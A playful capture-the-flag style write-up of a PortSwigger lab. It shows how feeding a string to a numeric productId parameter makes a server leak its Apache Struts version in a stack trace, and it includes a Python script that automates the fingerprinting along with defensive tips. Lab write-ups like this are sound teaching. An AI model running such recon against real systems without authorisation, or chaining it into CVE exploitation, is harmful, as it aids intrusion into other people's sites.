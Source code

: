 # 🧠 When Servers Overshare: Sniping Apache Struts with a Simple String Injection

**Author: Aditya Bhatt** <br/>
**Category: Web App Hacking | Recon | Info Disclosure | CVE Enumeration**

---

## 📜 Prelude to a Leak

Some bugs scream. Others whisper.

This one? It *accidentally drops its whole backend résumé* just because I threw a string into a parameter that expected a good ol’ integer. 💥

Today, I’ll walk you through **how I turned a bad typecast into a full-on reconnaissance goldmine**, discovered Apache Struts 2.3.31, and solved the PortSwigger lab with the swagger of a bounty hunter in a trench coat.

But wait… we’re not stopping at the PoC.
You’ll also get a **Python script to automate the whole shebang.** Let’s twist it up, automate the intel grab, and make devs cry (ethically, of course 🫡).

![Cover](https://github.com/user-attachments/assets/ced86192-c81b-4b11-95df-0eec8de711e9) <br/>

---

## 🕹️ TL;DR of the Attack

We take a `productId` endpoint, feed it malformed input (a string instead of an int), and the app coughs up a verbose error message containing its internal framework version.

We collect that info and submit it to solve the lab.
Simple, elegant, and deliciously leaky.

---

## ⚔️ Step-by-Step PoC (with 🗿 energy)

1. Go to Lab: [Burp Lab - Info Leak via Error Messages](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages). Open any product and capture the request.

![1](https://github.com/user-attachments/assets/63564d4b-edb7-4862-89de-f5356a5876ac) <br/>

2. Send `GET /product?productId=5` to Repeater.

![2](https://github.com/user-attachments/assets/5dbf3139-3a08-44fa-909c-f07312f370c7) <br/>

3. Observe the normal response. Yawn. 😴

![3](https://github.com/user-attachments/assets/bb5c7ef6-72b0-42bc-b9eb-ecfac8e571b0) <br/>

4. Now swap `5` with `"example"` → `productId="example"` and boom — 💥 full Java stack trace drops in your lap.

![4](https://github.com/user-attachments/assets/e353c281-1be2-48d2-bb79-595dfd29a3ee) <br/>

In the stack trace, we spot the vulnerable tech:
   **`Apache Struts 2 2.3.31`**
   
5. Submit this version in the lab.

![5](https://github.com/user-attachments/assets/9de6d6c2-7a87-4b52-ae15-fbd9d0b07532) <br/>

6. You just solved it. Now imagine doing this across 200 subdomains. That’s bug bounty artillery right there. 🚀

![6](https://github.com/user-attachments/assets/f555d51c-72da-4194-b8e0-59de7f407c7c) <br/>

---

## 🤖 Automation Script: Lab Destroyer 9000

Here’s your script to *automate the whole lab*. Just plug in the **lab URL**, and it’ll throw a string payload, catch the error, extract the version, and print it like a true recon master.

> **⚠️ NOTE**: Make sure you’re logged into your PortSwigger Academy session in the same browser session (or use the session cookie in this script).

```python
import requests
import re

# 🔧 CONFIG
LAB_URL = "https://YOUR-LAB-ID.web-security-academy.net/product?productId="
PAYLOAD = '"injection"'

# 🧠 HEADERS (Optionally add your session cookie if needed)
headers = {
    "User-Agent": "Mozilla/5.0",
    # "Cookie": "session=YOUR_SESSION_HERE"
}

# 🚀 MAKE THE REQUEST
def extract_version():
    try:
        print(f"[+] Sending request to: {LAB_URL}{PAYLOAD}")
        response = requests.get(LAB_URL + PAYLOAD, headers=headers, timeout=10)

        if response.status_code == 200:
            # 🧙 Regex magic to find Apache Struts version
            match = re.search(r'Apache Struts 2(?:\.| )([0-9]+\.[0-9]+\.[0-9]+)', response.text)
            if match:
                version = "2." + match.group(1)
                print(f"[🎯] Apache Struts version disclosed: {version}")
                return version
            else:
                print("[-] No version info found. Maybe lab is patched or wrong URL.")
        else:
            print(f"[-] Unexpected response code: {response.status_code}")

    except Exception as e:
        print(f"[!] Exception occurred: {e}")

# 🔍 Run the extractor
if __name__ == "__main__":
    extract_version()
```

---

## 💭 Real World Implications

* That one version string? It’s a **fingerprint**.
* Apache Struts is notorious for **RCEs like CVE-2017-5638** — the Equifax breach? Yeah, it started with something like this.
* Once you know the version, you can map it against CVEs and craft custom exploits or pivot further.

---

## 🔐 Defensive Juju

* Never expose internal stack traces to the user.
* Catch your exceptions, log them server-side, and serve generic 500 pages to users.
* Use a WAF or RASP to detect parameter fuzzing.

---

## 🧠 Final Thoughts

Information disclosure is a **gateway bug**.
It rarely gives you root access upfront, but it **opens the door** to version detection, CVE chaining, and attack surface expansion. Every recon artist’s dream.

When in doubt, just toss in the wrong input and let the server do the talking.

---
